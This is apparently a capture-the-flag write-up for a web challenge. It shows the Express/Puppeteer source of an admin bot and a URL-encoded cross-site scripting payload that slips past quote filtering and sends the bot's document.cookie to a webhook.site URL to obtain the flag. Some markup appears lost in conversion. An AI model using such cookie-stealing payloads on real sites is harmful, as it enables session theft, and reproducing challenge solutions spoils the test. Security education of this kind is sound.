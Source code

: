 Attachments:  
 * dist.zip

The dist.zip contains an index.js file with the following code:  
```javascript  
const express = require('express')  
const puppeteer = require('puppeteer');  
const cookieParser = require("cookie-parser");  
const rateLimit = require('express-rate-limit');  
require('dotenv').config();

const app = express()  
const port = process.env.PORT || 3000

const CONFIG = {  
 APPURL: process.env['APPURL'] || `http://127.0.0.1:${port}`,  
 APPFLAG: process.env['APPFLAG'] || "fake{flag}",  
}  
console.table(CONFIG)

const limiter = rateLimit({  
	windowMs: 60 * 1000, // 1 minute  
	limit: 4, // Limit each IP to 4 requests per `window` (here, per minute).  
	standardHeaders: 'draft-7',  
	legacyHeaders: false,  
})

app.use(express.json());  
app.use(express.urlencoded({ extended: true }));  
app.use(cookieParser());  
app.set('views', __dirname + '/views');  
app.use(express.static("./public"));  
app.engine('html', require('ejs').renderFile);  
app.set('view engine', 'ejs');

function sleep(s){  
 return new Promise((resolve)=>setTimeout(resolve, s))  
}

app.get('/', (req, res) => {  
 res.render('index.html');  
})

app.get('/admin/view', (req, res) => {  
 if (req.cookies.flag === CONFIG.APPFLAG) {  
   res.send(req.query.content);  
 }  
 else {  
   res.send('You are not Walter White!');  
 }  
})

app.post('/review', limiter,  async (req, res) => {  
 const initBrowser = puppeteer.launch({  
     executablePath: "/opt/homebrew/bin/chromium",  
     headless: true,  
     args: [  
         '--disable-dev-shm-usage',  
         '--no-sandbox',  
         '--disable-setuid-sandbox',  
         '--disable-gpu',  
         '--no-gpu',  
         '--disable-default-apps',  
         '--disable-translate',  
         '--disable-device-discovery-notifications',  
         '--disable-software-rasterizer',  
         '--disable-xss-auditor'  
     ],  
     ignoreHTTPSErrors: true  
 });  
 const browser = await initBrowser;  
 const context = await browser.createBrowserContext()  
 const content = req.body.content.replace("'", '').replace('"',
'').replace("`", '');  
 const urlToVisit = CONFIG.APPURL + '/admin/view/?content=' + content;  
 try {  
     const page = await context.newPage();  
     await page.setCookie({  
         name: "flag",  
         httpOnly: false,  
         value: CONFIG.APPFLAG,  
         url: CONFIG.APPURL  
     })  
     await page.goto(urlToVisit, {  
         waitUntil: 'networkidle2'  
     });  
     await sleep(1000);  
     // Close  
     await context.close()  
     res.redirect('/')  
 } catch (e) {  
     console.error(e);  
     await context.close();  
     res.redirect('/')  
 }  
})

app.listen(port, () => {  
 console.log(`Purdue winning on port ${port}`)  
})  
```

The app.post('/review', limiter,  async (req, res) function is a Node.js
server-side endpoint that uses Puppeteer to interact with a (server side) web
browser programmatically. It takes a request body, parses its content, and
then visits a specific URL on the application's domain using Puppeteer.

Placing this payload inside of the 'message' field of the page form will lead
to a call to the given webhook from the puppeteer browser:  
```html  
![](https://webhook.site/99853521-2093-4f3e-8f5a-8310bf862879)  
```  
Now we need to get the puppeteer browser to send its cookies as a request
parameter to the webhook url.  
The problem is, that the content is sanitized via  
```javascript  
const content = req.body.content.replace("'", '').replace('"',
'').replace("`", '');  
```  
So we need to find alternatives for the replaced characters. As the whole
content gets passed in a URL parameter, we can make this script run
successfully to call our webhook using URL encoding (' = %27) for the replaced
chars:  
```html  
<script>  
	function setUrl()   
	{  
		e = document.getElementById(%27asd%27);  
		e.src = %27%27.concat(%27https://webhook.site/99853521-2093-4f3e-8f5a-8310bf862879?cookies=%27,%27asdf2%27);  
	}  
</script>  
![](%27https://b01lersc.tf/assets/logo.svg%27)  
```  
Now we just need to extract the sites 'flag' cookie:

```html  
<script>  
	function setUrl()   
	{  
		e = document.getElementById(%27asd%27);  
		e.src = %27%27.concat(%27https://webhook.site/99853521-2093-4f3e-8f5a-8310bf862879?cookies=%27,document.cookie);  
	}  
</script>  
![](%27https://b01lersc.tf/assets/logo.svg%27)  
```  
The flag is returned in the cookie URL parameter:  
```  
bctf{wow_you_can_get_a_free_ad_now!}  
```